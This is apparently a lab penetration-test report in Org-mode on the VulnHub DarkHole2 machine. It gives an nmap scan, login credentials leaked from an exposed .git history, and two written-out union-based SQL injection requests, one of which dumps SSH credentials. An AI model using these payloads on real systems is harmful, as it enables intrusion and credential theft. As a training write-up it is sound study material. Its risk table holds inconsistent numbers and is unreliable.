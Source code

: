 #+TITLE: HA's VulnHub | DarkHole2 Config
#+AUTHOR: Hussien Almalki (HA)
#+DESCRIPTION: HA's personal VulnHub DarkHole2 config.
#+STARTUP: showeverything
#+OPTIONS: toc:2
#+EMAIL: r00t@hotmail.sg
#+LANGUAGE:  en
#+OPTIONS:   H:3 num:t   toc:3 \n:nil @:t ::t |:t ^:nil -:t f:t *:t <:nil
#+OPTIONS:   TeX:t LaTeX:nil skip:nil d:nil todo:t pri:nil tags:not-in-toc
#+OPTIONS:   author:t creator:t timestamp:t email:t
#+KEYWORDS:  Emacs Org-Mode Template
#+OPTIONS: toc:2

* TABLE OF CONTENTS :toc:
- [[#executive-summary][Executive Summary]]
  - [[#scope-of-work][Scope of Work]]
  - [[#project-objectives][Project Objectives]]
  - [[#assumption][Assumption]]
  - [[#timeline][Timeline]]
  - [[#summary-of-findings][Summary of Findings]]
  - [[#summary-of-recommendation][Summary of Recommendation]]
- [[#methodology][Methodology]]
  - [[#planning][Planning]]
  - [[#exploitation][Exploitation]]
  - [[#reporting][Reporting]]
- [[#detail-findings][Detail Findings]]
  - [[#detailed-systems-information][Detailed Systems Information]]
  - [[#apache-server-192168011][Apache Server 192.168.0.11]]

* Executive Summary
:PROPERTIES:
:CUSTOM_ID: ExecutiveSummary
:END:

This document details the secuirty assessment ~(external pentration testing)~ of =VulnHub | DarkHole2.= The purpose of the assessment waw to provide a review of the security posture of =VulnHub | darkHole2= Internet infrastructure, as well, as to identify potential weaknesses in its Internet infrastructure.

** Scope of Work
This security assessment covers the remote penetration testing of one accessible server hosted on =192.168.0.11= addresses. The assessment was carried out from a black box perspective, with the only supplied infromation being the tested servers' IP addresses. No other infromation was assumed at the start of the assessment.

** Project Objectives
This security assessment is carried out to gauge the security posture of =VulnHub | arkHole2= Internet facing hosts. The result of the assessment is then analyzed for vulnerabilities. Given the limited time that is givern to perform the assessment, only immediately exploitable services have been tested. The vulnerabilities are assigned a risk rating based on threat, vulnerability, and impact.

** Assumption
While writing the report, we assume that both IP addresses are considered to be public IP addreass, NDA and rules of engagement have been signed, and based on the information gathering phase the company name is ~VunlHUB~

** Timeline
The timeline of the test is as below:

| Penetration Testing | Start Date/time | End Date/time |
| Pen Test 1          | mm/dd/yyyy      | mm/dd/yyyy    |

** Summary of Findings

** Summary of Recommendation

* Methodology
:PROPERTIES:
:CUSTOM_ID: Methodology
:END:

** Planning
During planning, we gather information from public sources to learn about the target:
- Technical infrastructure
  Then, we datect the live system and its O.S and determine the running services and its.

** Exploitation
Utilizing the information gathered in Planning we start fo find the vulnerability for each O.S and service that we discovered after that trying to exploit it.

** Reporting
Based on the results from the first step, we start analyzing the results. *Our Risk* rating is based on this calculation.

|---------------+---------------+---------------+----------------+---------------|
| Threat        | Low           | Medium        | High           | Critical      |
|---------------+---------------+---------------+----------------+---------------|
| Vulnerability | L - M - H - C | L - M - H -C  | L - M - H - C  | L - M - H - C |
| Low           | 1   2   3   4 | 1   4   6  8  | 3   6   9   12 | 4   8  12  16 |
| Medium        | 2   4   6   8 | 4   8   12 16 | 6  12  18   24 | 8   16 24  32 |
| Medium        | 3   6   9  12 | 6  12   18 23 | 9  18  27*  36 | 12  24 36  84 |
| Critical      | 4   8  12  16 | 8  16   23 32 | 12 24  36   48 | 16  32 84  64 |
|---------------+---------------+---------------+----------------+---------------|
*Table 1 Risk Anaylsis*

|---+----------+-------|
| L | Low      |  1-16 |
| M | Medium   | 17-32 |
| H | Higt     | 33-48 |
| C | critical | 49-64 |
|---+----------+-------|
*Table 2 Rating Calculation*


* Detail Findings
:PROPERTIES:
:CUSTOM_ID: DetailFindings
:END:

** Detailed Systems Information

#+begin_src python
# Nmap 7.94 scan initiated Fri Feb 23 17:13:38 2024 as: nmap -sCV -p22,80 -oN targeted 192.168.0.11
Nmap scan report for 192.168.0.11
Host is up (0.00021s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   192.168.0.11:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: DarkHole V2
MAC Address: 00:0C:29:5D:99:BA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 23 17:13:44 2024 -- 1 IP address (1 host up) scanned in 6.62 seconds
#+end_src

|   IP Address | System Type | OS Information         | Port | Protocal | Service Name |
|--------------+-------------+------------------------+------+----------+--------------|
| 192.168.0.11 | Server      | Apache/2.4.41 (Ubuntu) |   22 | TCP      | SSH          |
|              |             |                        |   80 | TCP      | http         |

** Apache Server 192.168.0.11
*** Information gathering/service Enumeration
Unsecure service *(git backup directory)*
First, we check prot 80 to see if anything interesting comes up. Because the Apache Server is listening on port 80, we can immediately verify it in the browser.

| Threat Level | Vulnerability |
|--------------+---------------|
| Medium       | Medium        |

**** Analysis
We decided to have a look at the http-git page that we discovered previously during the =Nmap= aggressive scan, and found to include ~sensitive date and administrator credentials.~

| Sensitive date and administrator credentials                                                                                                                                                                          |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Sensitive data is information stored, processed, or managed by an individual or organization that is confidential and only accessible to authorized users with proper permission, privileges, or clearance to view it |

| URL                  | Parameter | Method |
| http://192.168.0.11/ | /.git/    | GET    |

#+begin_src php
commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

diff --git a/login.php b/login.php
index e69de29..8a0ff67 100644
--- a/login.php
+++ b/login.php
@@ -0,0 +1,42 @@
+<?php
+session_start();
+require 'config/config.php';
+if($_SERVER['REQUEST_METHOD'] == 'POST'){
+    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+        $_SESSION['userid'] = 1;
+        header("location:dashboard.php");
+        die();
+    }
+
+}
+?> 
#+end_src

We discovered the login page credentials

| Email          | Password |
|----------------+----------|
| lush@admin.com | 321     |

| Impact | Risk Rating |
|--------+-------------|
| High   | Low         |

**** Recommendation
If deemed necessary for this server to be administered remotely, Remove these files from production systems or restrict access to the =.git= directory. To deny access to all the =.git= folders you need to add the following lines in the appropriate context *(either gloable config, host/directory, or from .htaccess)*.

*SQLI (SQL Injection)*
We were directed to a page after checking.

[[./content/webpage.png]]

| SQl Injection                                                                                                                                                                                                     |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| A web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve |
|                                                                                                                                                                                                                   |


Web App vulnerability datails
| URL                               | Parameter | Method |
| http://192.168.0.11/dashboard.php | id        | GET    |

#+begin_src bash
GET /dashboard.php?id=2'+union+select+1,"hello",3,4,5,6--+- HTTP/1.1
Host: 192.168.0.11
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=nhhbdq44ona9u5sjl6vkvs67ml
Upgrade-Insecure-Requests: 1
#+end_src

[[./content/sql.png]]

#+begin_src python
GET /dashboard.php?id=2'+union+select+1,group_concat(user,0x3a,pass),3,4,5,6+from+ssh--+- HTTP/1.1
Host: 192.168.0.11
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=nhhbdq44ona9u5sjl6vkvs67ml
Upgrade-Insecure-Requests: 1
#+end_src

[[./content/sql1.png]]

We discovered =SSH= credentials for the user Jehad in this dump database.

| Username SSH | Password |
|--------------+----------|
| jehad        | fool     |

After exploiting this vulnerability we got a login =SSH= and as you can see the IP address is the server IP address.
[[./content/loginssh.png]]

